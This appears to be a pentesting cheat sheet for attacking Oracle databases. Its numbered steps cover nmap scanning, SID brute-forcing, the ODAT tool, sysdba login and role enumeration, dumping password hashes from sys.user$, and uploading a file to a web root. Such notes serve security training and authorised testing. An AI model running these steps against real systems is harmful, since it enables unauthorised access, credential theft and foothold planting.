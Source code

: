 Oracle databases can be protected by using so-called PL/SQL Exclusion List (PlsqlExclusionList). It is a user-created text file that needs to be placed in the $ORACLE_HOME/sqldeveloper directory, and it contains the names of PL/SQL packages or types that should be excluded from execution.
### ODAT
Oracle Database Attacking Tool (`ODAT`) is an open-source penetration testing tool written in Python and designed to enumerate and exploit vulnerabilities in Oracle databases. It can be used to identify and exploit various security flaws in Oracle databases, including SQL injection, remote code execution, and privilege escalation.
### Tips2Hack

1. Nmap
```bash
sudo nmap -p1521 -sV 13.13.13.13 --open
```
2. Nmap - SID Bruteforcing
```bash
sudo nmap -p1521 -sV 13.13.13.13 --open --script oracle-sid-brute
```
3. ODAT
```bash
./odat.py all -s 13.13.13.13
```
4. SQLplus - Log In
```bash
sqlplus george/burger@13.13.13.13/XE
```
5. Oracle RDBMS - Interaction
```bash
SQL> select table_name from all_tables;
SQL> select * from user_role_privs;

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
GEORGE                          CONNECT                        NO  YES NO
GEORGE                          RESOURCE                       NO  YES NO
```
6. Oracle RDBMS - Database Enumeration
```bash
sqlplus george/burger@13.13.13.13/XE as sysdba
SQL> select * from user_role_privs;
-------------------------------------------------------------------------
USERNAME                       GRANTED_ROLE                   ADM DEF OS
------------------------------ ------------------------------ --- --- ---
SYS                            ADM_PARALLEL_EXECUTE_TASK      YES YES NO
SYS                            APEX_ADMINISTRATOR_ROLE        YES YES NO
SYS                            AQ_ADMINISTRATOR_ROLE          YES YES NO
SYS                            AQ_USER_ROLE                   YES YES NO
SYS                            AUTHENTICATEDUSER              YES YES NO
SYS                            CONNECT                        YES YES NO
SYS                            CTXAPP                         YES YES NO
SYS                            DATAPUMP_EXP_FULL_DATABASE     YES YES NO
SYS                            DATAPUMP_IMP_FULL_DATABASE     YES YES NO
SYS                            DBA                            YES YES NO
SYS                            DBFS_ROLE                      YES YES
-------------------------------------------------------------------------
```
7. Oracle RDBMS - Extract Password Hashes
```bash
SQL> select name, password from sys.user$;
```
8. Oracle RDBMS - File Upload
```bash
./odat.py utlfile -s 13.13.13.13 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
curl -X GET http://13.13.13.13/testing.txt

```